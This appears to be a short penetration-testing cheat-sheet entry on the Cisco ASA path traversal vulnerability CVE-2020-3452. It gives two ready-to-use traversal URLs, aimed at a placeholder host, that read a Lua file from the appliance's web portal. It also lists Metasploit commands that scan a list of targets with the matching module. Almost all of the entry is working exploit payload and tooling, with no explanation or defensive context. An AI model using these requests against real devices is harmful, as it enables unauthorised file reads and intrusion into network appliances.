# Cisco




## ASA Path Traversal

**CVE-2020-3452**

Check manually:

```
https://cisco.example.com/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
https://cisco.example.com/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

Check with MSF:

```
msf > use auxiliary/scanner/http/cisco_directory_traversal
msf > set RHOSTS file:cisco.txt
msf > run
```
